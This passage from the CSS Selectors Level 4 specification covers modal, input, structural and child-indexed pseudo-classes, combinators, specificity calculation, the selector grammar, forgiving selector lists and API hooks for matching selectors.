> **Note:** This is distinct from `:open` because an element can have element-specific open and closed states and also have separate popover-showing and popover-hidden states associated with being a popover.

Exactly what “popover-showing” and “popover-hidden” states mean is host-language specific, but is exemplified by the presence of the HTML `popover` attribute and the associated popover visibility state.

#### 11.3.  Modal (Exclusive Interaction) State: the `:modal` pseudo-class {#selectors-4:modal-state}

The **:modal** pseudo-class represents an element which is in a state that excludes all interaction with elements outside it until it has been dismissed. Multiple elements can be `:modal` simultaneously, with only one of them active (able to receive input).

> **Example:** For example, the `dialog` element is `:modal` when opened with the `showModal()` API. Similarly, a `:fullscreen` element is also `:modal` when opened with the `requestFullscreen()` API, since this prevents interaction with the rest of the page.

#### 11.4.  Fullscreen Presentation State: the `:fullscreen` pseudo-class {#selectors-4:fullscreen-state}

The **:fullscreen** pseudo-class represents an element which is displayed in a mode that takes up most (usually all) of the screen, such as that defined by the Fullscreen API. [FULLSCREEN]

#### 11.5.  Picture-in-Picture Presentation State: the `:picture-in-picture` pseudo-class {#selectors-4:pip-state}

The **:picture-in-picture** pseudo-class represents an element whose contents are being displayed in a “picture-in-picture” mode (i.e. displayed in a window confined to part of the screen and overlaying other content) rather than embedded in the document. For example, this pseudo-class can be used to style a `video` element’s box while its contents are being played in an overlaid window using the Picture-in-Picture API. [picture-in-picture]

### 12.  The Input Pseudo-classes {#selectors-4:input-pseudos}

The pseudo-classes in this section mostly apply to elements that take user input, such as HTML’s input element.

#### 12.1.  Input Control States {#selectors-4:input-states}

##### 12.1.1.  The `:enabled` and `:disabled` Pseudo-classes {#selectors-4:enableddisabled}

The **:enabled** pseudo-class represents user interface elements that are in an enabled state; such elements must have a corresponding disabled state.

Conversely, the **:disabled** pseudo-class represents user interface elements that are in a disabled state; such elements must have a corresponding enabled state.

What constitutes an enabled state, a disabled state, and a user interface element is host-language-dependent. In a typical document most elements will be neither `:enabled` nor `:disabled`. For example, [HTML] defines [non-disabled interactive elements](https://html.spec.whatwg.org/multipage/semantics-other.html#selector-enabled) to be `:enabled`, and any such elements that are [explicitly disabled](https://html.spec.whatwg.org/multipage/semantics-other.html#selector-enabled) to be `:disabled`.

> **Note:** CSS properties that might affect a user’s ability to interact with a given user interface element do not affect whether it matches `:enabled` or `:disabled`; e.g., the `display` and `visibility` properties have no effect on the enabled/disabled state of an element.

##### 12.1.2.  The Mutability Pseudo-classes: `:read-only` and `:read-write` {#selectors-4:rw-pseudos}

An element matches **:read-write** if it is user-alterable, as defined by the document language. Otherwise, it is **:read-only**.

For example, in [HTML] a [non-disabled non-readonly `<input>` element](https://html.spec.whatwg.org/multipage/semantics-other.html#selector-read-only) is `:read-write`, as is any element with the `contenteditable` attribute set to the true state.

##### 12.1.3.  The Placeholder-shown Pseudo-class: `:placeholder-shown` {#selectors-4:placeholder}

Input elements can sometimes show placeholder text as a hint to the user on what to type in. See, for example, the `placeholder` attribute in [HTML]. The **:placeholder-shown** pseudo-class matches an input element that is showing such placeholder text, whether that text is given by an attribute or a real element, or is otherwise implied by the UA.

> **Example:** For example, according to the semantics of [HTML] the `placeholder` attribute on the `input` and `textarea` elements provide placeholder text. The `:placeholder-shown` class thus applies whenever such placeholder text is shown.

##### 12.1.4.  The Automatic Input Pseudo-class: `:autofill` {#selectors-4:autofill}

The **:autofill** pseudo-class represents input elements that have been automatically filled by the user agent, and have not been subsequently altered by the user.

##### 12.1.5.  The Default-option Pseudo-class: `:default` {#selectors-4:the-default-pseudo}

The **:default** pseudo-class applies to the one or more UI elements that are the default among a set of similar elements. Typically applies to context menu items, buttons and select lists/menus.

One example is the default submit button among a set of buttons. Another example is the default option from a popup menu. In a select-many group (such as for pizza toppings), multiple elements can match `:default`. For example, [HTML] defines that `:default` matches [the “default button” in a form, the initially-selected `<option>`(s) in a `<select>`, and a few other elements.](https://html.spec.whatwg.org/multipage/semantics-other.html#selector-default)

#### 12.2.  Input Value States {#selectors-4:input-value-states}

##### 12.2.1.  The Selected-option Pseudo-classes: `:checked`, `:unchecked`, and `:indeterminate` {#selectors-4:checked}

Radio and checkbox elements can be toggled by the user, and some menu items are “checked” when the user selects them. This state is reflected by the **input value pseudo-classes**.

When such elements are toggled “on” the **:checked** pseudo-class applies. For example, [HTML] defines that [checked checkboxes, radio buttons, and selected `<option>` elements](https://html.spec.whatwg.org/multipage/semantics-other.html#selector-checked) match `:checked`. Similarly, when such elements are toggled “off”, the **:unchecked** pseudo-class applies.

If an element that *could* match `:checked` or `:unchecked` is neither "on" nor "off", the **:indeterminate** pseudo-class applies. `:indeterminate` also matches elements which do not have a notion of being "checked", but whose "value" is still in an indeterminate state, such as a progress meter whose progress percentage is unknown.

These three pseudo-classes are mutually exclusive; an element can only match at most one of them at a time. (And might match none, if the concept of being "checked" doesn’t apply to them.) If the "indeterminate" concept is not mutually exclusive with the "checked"/"unchecked" concept in a host language (for example, in HTML a checkbox’s "indeterminate" state is a separate boolean from its "checked" state boolean), being indeterminate wins over being checked/unchecked for the purpose of matching these pseudo-classes.

> **Example:** For example, in HTML:
>
> - Checkboxes match `:indeterminate` if their `indeterminate` property is true; otherwise, they match `:checked` or `:unchecked` depending on their `checked` property.
> - Radio buttons match `:checked` if their `checked` property is true. Otherwise, they match `:unchecked` if they’re in a radio group that contains a `:checked` radio button. Otherwise (their `checked` property is false, but they’re alone or in a radio group with no checked radio button), they match `:indeterminate`.
> - `option` elements within a `select` match `:checked` or `:unchecked` depending on their `selected` property. (They’re never `:indeterminate`.)
> - `progress` elements match `:indeterminate` if they lack a `value` attribute

While the input value pseudo-classes are dynamic in nature, and can altered by user action, since they can also be based on the presence of semantic attributes in the document (such as the `selected` and `checked` attributes in [HTML]), they apply to all media.

#### 12.3.  Input Value-checking {#selectors-4:ui-validity}

##### 12.3.1.  The Validity Pseudo-classes: `:valid` and `:invalid` {#selectors-4:validity-pseudos}

An element is **:valid** or **:invalid** when its contents or value is, respectively, valid or invalid with respect to data validity semantics defined by the document language (e.g. [XFORMS11] or [HTML]). An element which lacks data validity semantics is neither `:valid` nor `:invalid`.

> **Note:** There is a difference between an element which has no constraints, and thus would always be `:valid`, and one which has no data validity semantics at all, and thus is neither `:valid` nor `:invalid`. In HTML, for example, an `<input type="text">` element may have no constraints, but a p element has no validity semantics at all, and so it never matches either of these pseudo-classes.

##### 12.3.2.  The Range Pseudo-classes: `:in-range` and `:out-of-range` {#selectors-4:range-pseudos}

The **:in-range** and **:out-of-range** pseudo-classes apply only to elements that have range limitations. An element is `:in-range` or `:out-of-range` when the value that the element is bound to is in range or out of range with respect to its range limits as defined by the document language. An element that lacks data range limits or is not a form control is neither `:in-range` nor `:out-of-range`. E.g. a slider element with a value of 11 presented as a slider control that only represents the values from 1-10 is :out-of-range. Another example is a menu element with a value of "E" that happens to be presented in a popup menu that only has choices "A", "B" and "C".

##### 12.3.3.  The Optionality Pseudo-classes: `:required` and `:optional` {#selectors-4:opt-pseudos}

A form element is **:required** or **:optional** if a value for it is, respectively, required or optional before the form it belongs to can be validly submitted. Elements that are not form elements are neither required nor optional.

##### 12.3.4.  The User-interaction Pseudo-classes: `:user-valid` and `:user-invalid` {#selectors-4:user-pseudos}

The **:user-invalid** and the **:user-valid** pseudo-classes represent an element with incorrect or correct input, respectively, but only *after* the user has significantly interacted with it. Their purpose is to help the user identify mistakes in their input.

These pseudo-classes must at least match their respective elements after the user has attempted to submit the form and before the user has interacted again with the input element or reset the form. They may also match at other times, as would be appropriate for highlighting an error to the user. For example, `:user-invalid` could start matching an `:invalid` input element once the user has changed its value and focus has moved to another element; or stop matching only after the user has successfully corrected the input.

Host languages may define more precise matching rules or defer to platform conventions; otherwise the exact behavior is UA-defined. Regardless, the `:user-invalid` pseudo-class must only match `:invalid` elements; and the `:user-valid` pseudo-class must only match `:valid` elements. See the `HTML specification` for the specific rules pertaining to HTML elements. [HTML]

> **Example:** For example, the `input` element in the following document fragment would match `:invalid` as soon as the page is loaded (because the `input`’s initial value violates its max constraint) but it won’t match `:user-invalid` until the user significantly interacts with the input field or attempts to submit the form it’s part of.
>
> ```
> <form>
>   <label>
>     Volume:
>     <input name='vol' type=number min=0 max=10 value=11>
>   </label>
>   ...
> </form>
> ```

### 13.  Tree-Structural pseudo-classes {#selectors-4:structural-pseudos}

Selectors introduces the concept of **structural pseudo-classes** to permit selection based on extra information that lies in the document tree but cannot be represented by other simple selectors or combinators.

Standalone text and other non-element nodes are not counted when calculating the position of an element in the list of children of its parent. When calculating the position of an element in the list of children of its parent, the index numbering starts at 1.

The structural pseudo-classes only apply to elements in the document tree; they must never match pseudo-elements.

#### 13.1.  `:root` pseudo-class {#selectors-4:the-root-pseudo}

The **:root** pseudo-class represents an element that is the root of the document.

For example, in a DOM document, the `:root` pseudo-class matches the document element. In HTML, this will be the `html` element (unless scripting has been used to modify the document).

#### 13.2.  `:empty` pseudo-class {#selectors-4:the-empty-pseudo}

The **:empty** pseudo-class represents an element that has no children except, optionally, document white space characters. In terms of the document tree, only element nodes and content nodes (such as [DOM] text nodes, and entity references) whose data has a non-zero length must be considered as affecting emptiness; comments, processing instructions, and other nodes must not affect whether an element is considered empty or not.

> **Example:** s: `p:empty` is a valid representation of the `p` elements in the following HTML fragment:
>
> ```
> <p></p>
> <p>
> <p> </p>
> <p> <!-- comment --></p>
> ```
>
> `div:empty` is not a valid representation of the `<div>` elements in the following fragment:
>
> ```
> <div>text</div>
> <div><p></p></div>
> <div>&nbsp;</div>
> <div><p>bla</p></div>
> <div>this is not <p>:empty</p></div>
> ```

> **Note:** In Level 2 and Level 3 of Selectors, `:empty` did not match elements that contained only white space. This was changed so that—​given white space is largely collapsible in HTML and is therefore used for source code formatting, and especially because elements with omitted end tags are likely to absorb such white space into their DOM text contents—​elements which authors perceive of as empty can be selected by this selector, as they expect.

#### 13.3.  Child-indexed Pseudo-classes {#selectors-4:child-index}

The pseudo-classes defined in this section select elements based on their index amongst their inclusive siblings.

> **Note:** Selectors 3 described these selectors as selecting elements based on their index in the child list of their parents. (This description survives in the name of this very section, and the names of several of the pseudo-classes.) As there was no reason to exclude them from matching elements without parents, or with non-element parents, they have been rephrased to refer to an element’s relative index amongst its siblings.

##### 13.3.1.  `:nth-child()` pseudo-class {#selectors-4:the-nth-child-pseudo}

The **:nth-child(*An+B* [of *S*]? )** pseudo-class notation represents elements that are among *An+B*th elements from the list composed of their inclusive siblings that match the selector list *S*, which is a `<complex-real-selector-list>`. If *S* is omitted, it defaults to `*|*`.

The *An+B* notation and its interpretation are defined in [CSS Syntax 3 § 6 The An+B microsyntax](#css-syntax-3:anb-microsyntax); it represents any index *i* = *A**n* + *B* for any non-negative integer *n*.

> **Note:** For these purposes, the list of elements is **1-indexed**; that is, the first child of an element has index 1, and will be matched by `:nth-child(2n+1)`, because when `n=0` the expression evaluates to `1`.

For example, this selector could address every other row in a table, and could be used to alternate the color of paragraph text in a cycle of four.

> **Example:** s:
>
> ```
> :nth-child(even)   /* represents the 2nd, 4th, 6th, etc elements
> :nth-child(10n-1)  /* represents the 9th, 19th, 29th, etc elements */
> :nth-child(10n+9)  /* Same */
> :nth-child(10n+-1) /* Syntactically invalid, and would be ignored */
> ```

> **Note:** The specificity of the `:nth-child()` pseudo-class is the specificity of a single pseudo-class plus, if *S* is specified, the specificity of the most specific complex selector in *S*. See [§ 15 Calculating a selector’s specificity](#selectors-4:specificity-rules). Thus `S:nth-child(An+B)` and `:nth-child(An+B of S)` have the exact same specificity, although they do differ in behavior (see example below).

> **Example:** By passing a selector argument, we can select the Nth element that matches that selector. For example, the following selector matches the first three “important” list items, denoted by the `.important` class:
>
> ```
> :nth-child(-n+3 of li.important)
> ```
>
> Note that this is different from moving the selector outside of the function, like:
>
> ```
> li.important:nth-child(-n+3)
> ```
>
> This selector instead just selects the first three children if they also happen to be "important" list items.

> **Example:** Here’s another example of using the selector argument, to ensure that zebra-striping a table works correctly.
>
> Normally, to zebra-stripe a table’s rows, an author would use CSS similar to the following:
>
> ```
> tr {
>   background: white;
> }
> tr:nth-child(even) {
>   background: silver;
> }
> ```
>
> However, if some of the rows are hidden and not displayed, this can break up the pattern, causing multiple adjacent rows to have the same background color. Assuming that rows are hidden with the `[hidden]` attribute in HTML, the following CSS would zebra-stripe the table rows robustly, maintaining a proper alternating background regardless of which rows are hidden:
>
> ```
> tr {
>   background: white;
> }
> tr:nth-child(even of :not([hidden])) {
>   background: silver;
> }
> ```

##### 13.3.2.  `:nth-last-child()` pseudo-class {#selectors-4:the-nth-last-child-pseudo}

The **:nth-last-child(*An+B* [of *S*]? )** pseudo-class notation represents elements that are among *An+B*th elements from the list composed of their inclusive siblings that match the selector list *S*, counting backwards from the end. *S* is `<complex-real-selector-list>`. If *S* is omitted, it defaults to `*|*`.

> **Note:** The specificity of the `:nth-last-child()` pseudo-class, like the `:nth-child()` pseudo-class, combines the specificity of a regular pseudo-class with that of its selector argument *S*. See [§ 15 Calculating a selector’s specificity](#selectors-4:specificity-rules).

The CSS Syntax Module [CSS3SYN] defines the [*An+B* notation](#css-syntax-3:anb).

> **Example:** s:
>
> ```
> tr:nth-last-child(-n+2)    /* represents the two last rows of an HTML table */
>
> foo:nth-last-child(odd)    /* represents all odd foo elements in their parent element,
>                               counting from the last one */
> ```

##### 13.3.3.  `:first-child` pseudo-class {#selectors-4:the-first-child-pseudo}

The **:first-child** pseudo-class represents an element that is first among its inclusive siblings. Same as `:nth-child(1)`.

> **Example:** s: The following selector represents a p element that is the first child of a div element:
>
> ```
> div > p:first-child
> ```
>
> This selector can represent the `p` inside the `div` of the following fragment:
>
> ```
> <p> The last P before the note.</p>
> <div class="note">
>    <p> The first P inside the note.</p>
> </div>
> ```
>
> but cannot represent the second `p` in the following fragment:
>
> ```
> <p> The last P before the note.</p>
> <div class="note">
>    <h2> Note </h2>
>    <p> The first P inside the note.</p>
> </div>
> ```
>
> The following two selectors are usually equivalent:
>
> ```
> * > a:first-child /* a is first child of any element */
> a:first-child /* Same (assuming a is not the root element) */
> ```

##### 13.3.4.  `:last-child` pseudo-class {#selectors-4:the-last-child-pseudo}

The **:last-child** pseudo-class represents an element that is last among its inclusive siblings. Same as `:nth-last-child(1)`.

> **Example:** The following selector represents a list item `li` that is the last child of an ordered list `ol`.
>
> ```
> ol > li:last-child
> ```

##### 13.3.5.  `:only-child` pseudo-class {#selectors-4:the-only-child-pseudo}

The **:only-child** pseudo-class represents an element that has no siblings. Same as `:first-child:last-child` or `:nth-child(1):nth-last-child(1)`, but with a lower specificity.

#### 13.4.  Typed Child-indexed Pseudo-classes {#selectors-4:typed-child-index}

The pseudo-classes in this section are similar to the [Child Index Pseudo-classes](#selectors-4:child-index), but they resolve based on an element’s index **among elements of the same [type (tag name)](#selectors-4:type-selectors)** in their sibling list.

##### 13.4.1.  `:nth-of-type()` pseudo-class {#selectors-4:the-nth-of-type-pseudo}

The **:nth-of-type(*An+B*)** pseudo-class notation represents the same elements that would be matched by `:nth-child(|An+B| of S)`, where *S* is a type selector and namespace prefix matching the element in question. For example, when considering whether an HTML `img` element matches this pseudo-class, the *S* in question is `html|img` (assuming an appropriate `html` namespace is declared).

> **Example:** CSS example: This allows an author to alternate the position of floated images:
>
> ```
> img:nth-of-type(2n+1) { float: right; }
> img:nth-of-type(2n) { float: left; }
> ```

> **Note:** If the type of the element is known ahead of time, this pseudo-class is equivalent to using `:nth-child()` with a type selector. That is, `img:nth-of-type(2)` is equivalent to `*:nth-child(2 of img)`.

##### 13.4.2.  `:nth-last-of-type()` pseudo-class {#selectors-4:the-nth-last-of-type-pseudo}

The **:nth-last-of-type(*An+B*)** pseudo-class notation represents the same elements that would be matched by `:nth-last-child(|An+B| of S)`, where *S* is a type selector and namespace prefix matching the element in question. For example, when considering whether an HTML `img` element matches this pseudo-class, the *S* in question is `html|img` (assuming an appropriate `html` namespace is declared).

> **Example:** To represent all `h2` children of an XHTML `body` except the first and last, one could use the following selector:
>
> ```
> body > h2:nth-of-type(n+2):nth-last-of-type(n+2) 
> ```
>
> In this case, one could also use `:not()`, although the selector ends up being just as long:
>
> ```
> body > h2:not(:first-of-type):not(:last-of-type) 
> ```

##### 13.4.3.  `:first-of-type` pseudo-class {#selectors-4:the-first-of-type-pseudo}

The **:first-of-type** pseudo-class represents the same element as `:nth-of-type(1)`.

> **Example:** The following selector represents a definition title `dt` inside a definition list `dl`, this `dt` being the first of its type in the list of children of its parent element.
>
> ```
> dl dt:first-of-type
> ```
>
> It is a valid description for the first two `dt` elements in the following example but not for the third one:
>
> ```
> <dl>
>   <dt>gigogne</dt>
>   <dd>
>     <dl>
>       <dt>fusée</dt>
>       <dd>multistage rocket</dd>
>       <dt>table</dt>
>       <dd>nest of tables</dd>
>     </dl>
>   </dd>
> </dl>
> ```

##### 13.4.4.  `:last-of-type` pseudo-class {#selectors-4:the-last-of-type-pseudo}

The **:last-of-type** pseudo-class represents the same element as `:nth-last-of-type(1)`.

> **Example:** The following selector represents the last data cell `td` of a table row `tr`.
>
> ```
> tr > td:last-of-type
> ```

##### 13.4.5.  `:only-of-type` pseudo-class {#selectors-4:the-only-of-type-pseudo}

The **:only-of-type** pseudo-class represents the same element as `:first-of-type:last-of-type`.

### 14.  Combinators {#selectors-4:combinators}

#### 14.1.  Descendant combinator () {#selectors-4:descendant-combinators}

At times, authors may want selectors to describe an element that is the descendant of another element in the document tree (e.g., "an em element that is contained within an H1 element"). The **descendant combinator** expresses such a relationship.

A descendant combinator is whitespace that separates two compound selectors.

A selector of the form `A B` represents an element `B` that is an arbitrary descendant of some ancestor element `A`.

> **Example:** s: For example, consider the following selector:
>
> ```
> h1 em
> ```
>
> It represents an em element being the descendant of an h1 element. It is a correct and valid, but partial, description of the following fragment:
>
> ```
> <h1>This <span class="myclass">headline
> is <em>very</em> important</span></h1>
> ```
>
> The following selector:
>
> ```
> div * p
> ```
>
> represents a p element that is a grandchild or later descendant of a div element. Note the whitespace on either side of the "*" is not part of the universal selector; the whitespace is a combinator indicating that the `div` must be the ancestor of some element, and that that element must be an ancestor of the `p`. The following selector, which combines descendant combinators and [attribute selectors](#selectors-4:attribute-selectors), represents an element that (1) has the `href` attribute set and (2) is inside a `p` that is itself inside a `div`:
>
> ```
> div p *[href]
> ```

#### 14.2.  Child combinator (`>`) {#selectors-4:child-combinators}

A **child combinator** describes a childhood relationship between two elements. A child combinator is made of the "greater-than sign" (U+003E, **>**) code point and separates two compound selectors.

> **Example:** s: The following selector represents a p element that is child of `body`:
>
> ```
> body > p
> ```
>
> The following example combines descendant combinators and child combinators.
>
> ```
> div ol>li p
> ```
>
> It represents a p element that is a descendant of an li element; the li element must be the child of an ol element; the ol element must be a descendant of a `div`. Notice that the optional white space around the ">" combinator has been left out.

For information on selecting the first child of an element, please see the section on the `:first-child` pseudo-class above.

#### 14.3.  Next-sibling combinator (`+`) {#selectors-4:adjacent-sibling-combinators}

The **next-sibling combinator** is made of the “plus sign” (U+002B, **+**) code point that separates two compound selectors. The elements represented by the two compound selectors share the same parent in the document tree and the element represented by the first compound selector immediately precedes the element represented by the second one. Non-element nodes (e.g. text between elements) are ignored when considering the adjacency of elements.

> **Example:** s: The following selector represents a p element immediately following a math element:
>
> ```
> math + p
> ```
>
> The following selector is conceptually similar to the one in the previous example, except that it adds an attribute selector — it adds a constraint to the h1 element, that it must have `class="opener"`:
>
> ```
> h1.opener + h2
> ```

#### 14.4.  Subsequent-sibling combinator (`~`) {#selectors-4:general-sibling-combinators}

The **subsequent-sibling combinator** is made of the "tilde" (U+007E, **~**) code point that separates two compound selectors. The elements represented by the two compound selectors share the same parent in the document tree and the element represented by the first compound selector precedes (not necessarily immediately) the element represented by the second one.

> **Example:** ```
> h1 ~ pre
> ```
>
> represents a pre element following an `h1`. It is a correct and valid, but partial, description of:
>
> ```
> <h1>Definition of the function a</h1>
> <p>Function a(x) has to be applied to all figures in the table.</p>
> <pre>function a(x) = 12x/13.5</pre>
> ```

### 15.  Calculating a selector’s specificity {#selectors-4:specificity-rules}

A selector’s **specificity** is calculated for a given element as follows:

- count the number of ID selectors in the selector (= *A*)
- count the number of class selectors, attributes selectors, and pseudo-classes in the selector (= *B*)
- count the number of type selectors and pseudo-elements in the selector (= *C*)
- ignore the universal selector

If the selector is a selector list, this number is calculated for each selector in the list. For a given matching process against the list, the specificity in effect is that of the most specific selector in the list that matches.

A few pseudo-classes provide “evaluation contexts” for other selectors, and so have their specificity defined specially:

- The specificity of an `:is()`, `:not()`, or `:has()` pseudo-class is replaced by the specificity of the most specific complex selector in its selector list argument.
- Analogously, the specificity of an `:nth-child()` or `:nth-last-child()` selector is the specificity of the pseudo-class itself (counting as one pseudo-class selector) plus the specificity of the most specific complex selector in its selector list argument (if any).
- The specificity of a `:where()` pseudo-class is replaced by zero.

> **Example:** For example:
>
> - `:is(em, #foo)` has a specificity of (1,0,0)—​like an ID selector (`#foo`)—​when matched against any of `<em>`, `<p id=foo>`, or `<em id=foo>`.
> - `.qux:where(em, #foo#bar#baz)` has a specificity of (0,1,0): only the `.qux` outside the `:where()` contributes to selector specificity.
> - `:nth-child(even of li, .item)` has a specificity of (0,2,0)—​like a class selector (`.item`) plus a pseudo-class—​when matched against any of `<li>`, `<ul class=item>`, or `<li class=item id=foo>`.
> - `:not(em, strong#foo)` has a specificity of (1,0,1)—​like a tag selector (`strong`) combined with an ID selector (`#foo`)—​when matched against any element.

Specificities are compared by comparing the three components in order: the specificity with a larger *A* value is more specific; if the two *A* values are tied, then the specificity with a larger *B* value is more specific; if the two *B* values are also tied, then the specificity with a larger *C* value is more specific; if all the values are tied, the two specificities are equal.

Due to storage limitations, implementations may have limitations on the size of *A*, *B*, or *C*. If so, values higher than the limit must be clamped to that limit, and not overflow.

> **Example:** s:
>
> ```
> *               /* a=0 b=0 c=0 */
> LI              /* a=0 b=0 c=1 */
> UL LI           /* a=0 b=0 c=2 */
> UL OL+LI        /* a=0 b=0 c=3 */
> H1 + *[REL=up]  /* a=0 b=1 c=1 */
> UL OL LI.red    /* a=0 b=1 c=3 */
> LI.red.level    /* a=0 b=2 c=1 */
> #x34y           /* a=1 b=0 c=0 */
> #s12:not(FOO)   /* a=1 b=0 c=1 */
> .foo :is(.bar, #baz)
>                 /* a=1 b=1 c=0 */
> ```

> **Note:** Repeated occurrences of the same simple selector are allowed and do increase specificity.

> **Note:** The specificity of the styles specified in an HTML `style` attribute [is described in CSS Style Attributes](#css-style-attr-1:interpret). [CSSSTYLEATTR]

### 16.  Grammar {#selectors-4:grammar}

Selectors are parsed according to the following grammar:

```css
<selector-list> = <complex-selector-list>

<complex-selector-list> = <complex-selector>#
<complex-real-selector-list> = <complex-real-selector>#

<compound-selector-list> = <compound-selector>#

<simple-selector-list> = <simple-selector>#

<relative-selector-list> = <relative-selector>#
<relative-real-selector-list> = <relative-real-selector>#

<complex-selector> = <complex-selector-unit> [ <combinator>? <complex-selector-unit> ]*
<complex-selector-unit> = [ <compound-selector>? <pseudo-compound-selector>* ]!
<complex-real-selector> = <compound-selector> [ <combinator>? <compound-selector> ]*

<relative-selector> = <combinator>? <complex-selector>
<relative-real-selector> = <combinator>? <complex-real-selector>

<compound-selector> = [ <type-selector>? <subclass-selector>* ]!
<pseudo-compound-selector> =  <pseudo-element-selector> <pseudo-class-selector>*

<simple-selector> = <type-selector> | <subclass-selector>

<combinator> = '>' | '+' | '~'

<wq-name> = <ns-prefix>? <ident-token>
<ns-prefix> = [ <ident-token> | '*' ]? '|'

<type-selector> = <wq-name> | <ns-prefix>? '*'

<subclass-selector> = <id-selector> | <class-selector> |
                      <attribute-selector> | <pseudo-class-selector>

<id-selector> = <hash-token>

<class-selector> = '.' <ident-token>

<attribute-selector> = '[' <wq-name> ']' |
    '[' <wq-name> <attr-matcher> [ <string-token> | <ident-token> ] <attr-modifier>? ']'
<attr-matcher> = [ '~' | '|' | '^' | '$' | '*' ]? '='
<attr-modifier> = i | s

<pseudo-class-selector> = : <ident-token> |
                          : <function-token> <any-value> )

<pseudo-element-selector> = : <pseudo-class-selector> | <legacy-pseudo-element-selector>
<legacy-pseudo-element-selector> =  : [before | after | first-line | first-letter]
```

In interpreting the above grammar, the following rules apply:

- White space is forbidden:

  - Between any of the top-level components of a `<compound-selector>` or `<complex-selector-unit>` (that is, forbidden between the `<type-selector>` and `<subclass-selector>`, or between the `<pseudo-element-selector>` and `<pseudo-class-selector>`, etc).
  - Between *any* of the components of a `<type-selector>` or a `<class-selector>`.
  - Between the ':'s, or between the ':' and `<ident-token>` or `<function-token>`, of a `<pseudo-element-selector>` or a `<pseudo-class-selector>`.
  - Between *any* of the components of a `<wq-name>`.
  - Between the components of an `<attr-matcher>`.
  - Between the `<compound-selector>` or `<pseudo-compound-selector>`s in a `<complex-selector-unit>`

  Whitespace is *required* between two `<complex-selector-unit>`s if the `<combinator>` between them is omitted. (This indicates the descendant combinator is being used.)
- In `<id-selector>`, the `<hash-token>`’s value must be an identifier.
- The `<pseudo-class-selector>` production excludes the `<legacy-pseudo-element-selector>` production. (That is, `:before`/etc must never be parsed as a pseudo-class, even if doing so would cause the selector to become valid due to, for example, other simple selectors following it.)

> **Note:** A selector is also subject to a variety of more specific syntactic constraints, and adherence to the grammar above is necessary *but not sufficient* for the selector to be considered valid. See [§ 3.9 Invalid Selectors and Error Handling](#selectors-4:invalid) for additional rules for parsing selectors.

> **Note:** In general, a `<pseudo-element-selector>` is only valid if placed at the end of the last `<compound-selector>` in a `<complex-selector>`. In some circumstances, however, it can be followed by more <pseudo-element-selector>s or `<pseudo-class-selector>`s; but these are specified on a case-by-case basis. (For example, the user action pseudo-classes are allowed after any pseudo-element, and the tree-abiding pseudo-elements are allowed after the `::slotted()` pseudo-element.)

> **Note:** The four [Level 2](https://www.w3.org/TR/CSS2/selectors.html#pseudo-element-selectors) pseudo-elements (`::before`, `::after`, `::first-line`, and `::first-letter`) may, for legacy reasons, be written with only a single ":" character at their front, making them resemble a `<pseudo-class-selector>`.

#### 16.1.  `<forgiving-selector-list>` {#selectors-4:forgiving-selector}

For legacy reasons, the general behavior of a selector list is that if any selector in the list fails to parse (because it uses new or UA-specific selector features, for instance), the entire selector list becomes invalid. This can make it hard to write CSS that uses new selectors and still works correctly in older user agents.

The **`<forgiving-selector-list>`** production instead parses each selector in the list individually, simply ignoring ones that fail to parse, so the remaining selectors can still be used.

> **Note:** Style rules still use the normal, unforgiving selector list behavior. `<forgiving-selector-list>` is used in `:is()` and `:where()` only. Although it does have some minor implications on specificity, wrapping a style rule’s selector in `:is()` effectively "upgrades" it to become forgiving, so long as it doesn’t contain any pseudo-elements (which aren’t valid in `:is()` or `:where()`).

Syntactically, `<forgiving-selector-list>` is equivalent to `<any-value>?`. It is then parsed as a forgiving selector list to obtain its actual value.

To **parse as a forgiving selector list** given an input *input*:

1. Parse a list of `<complex-real-selector>`s from *input*, and let *selector list* be the result.
2. Remove all failure items from *selector list*, and all items that are invalid selectors, then return a `<selector-list>` representing the remaining items in *selector list*. (This might be empty.)

Any items in a `<forgiving-selector-list>` that are invalid (whether explicitly, by using unknown selectors or syntax, or merely contextually, using known syntax but in an invalid context) must be treated as having zero specificity.

> **Note:** `<forgiving-selector-list>` is intentionally used only in `:is()` and `:where()`, not in any other selector that takes a selector argument.

### 17.  API Hooks {#selectors-4:api-hooks}

To aid in the writing of specs that use Selectors concepts, this section defines several API hooks that can be invoked by other specifications.

> **Issue:** Are these still necessary now that we have more rigorous definitions for match and invalid selector? Nouns are a lot easier to coordinate across specification than predicates, and details like the exact order of elements returned from `querySelector` seem to make more sense being defined in the DOM specification than in Selectors.

#### 17.1.  Parse A Selector {#selectors-4:parse-selector}

This section defines how to **parse a selector** from a string *source*. It returns either a complex selector list, or failure.

1. Let *selector* be the result of parsing *source* as a `<selector-list>`. If this returns failure, it’s an invalid selector; return failure.
2. If *selector* is an invalid selector for any other reason (such as, for example, containing an undeclared namespace prefix), return failure.
3. Otherwise, return *selector*.

#### 17.2.  Parse A Relative Selector {#selectors-4:parse-relative-selector}

This section defines how to **parse a relative selector** from a string *source*. It returns either a complex selector list, or failure.

1. Let *selector* be the result of parsing *source* as a `<relative-selector-list>`. If this returns failure, it’s an invalid selector; return failure.
2. If *selector* is an invalid selector for any other reason (such as, for example, containing an undeclared namespace prefix), return failure.
3. Otherwise, return *selector*.

#### 17.3.  Match a Selector Against an Element {#selectors-4:match-against-element}

This section defines how to **match a selector against an element**.

APIs using this algorithm must provide a *selector* and an *element*.

Callers may optionally provide:

- one or more scoping roots, for resolving the `:scope` pseudo-class against.

This algorithm returns either success or failure.

For each complex selector in the given *selector* (which is taken to be a list of complex selectors), match the complex selector against *element*, as described in the following paragraph. If the matching returns success for any complex selector, then the algorithm return success; otherwise it returns failure.

To **match a complex selector against an element**, process it compound selector at a time, in right-to-left order. This process is defined recursively as follows:

- If any simple selectors in the rightmost compound selector does not match the element, return failure.
- Otherwise, if there is only one compound selector in the complex selector, return success.
- Otherwise, consider all possible elements that could be related to this element by the rightmost combinator. If the operation of matching the selector consisting of this selector with the rightmost compound selector and rightmost combinator removed against any one of these elements returns success, then return success. Otherwise, return failure.

#### 17.4.  Match a Selector Against a Pseudo-element {#selectors-4:match-against-pseudo-element}

This section defines how to **match a selector against a pseudo-element**.

APIs using this algorithm must provide a *selector* and a *pseudo-element*. They may optionally provide the same things they may optionally provide to the algorithm to match a selector against an element.

This algorithm returns success or failure.

For each complex selector in the given *selector*, if both:

- the rightmost simple selector in the complex selector matches *pseudo-element*, and
- the result of running match a complex selector against an element on the remainder of the complex selector (with just the rightmost simple selector of its rightmost complex selector removed), *pseudo-element*’s corresponding element, and any optional parameters provided to this algorithm returns success,

then return success.

Otherwise (that is, if this doesn’t happen for any of the complex selectors in *selector*), return failure.

#### 17.5.  Match a Selector Against a Tree {#selectors-4:match-against-tree}

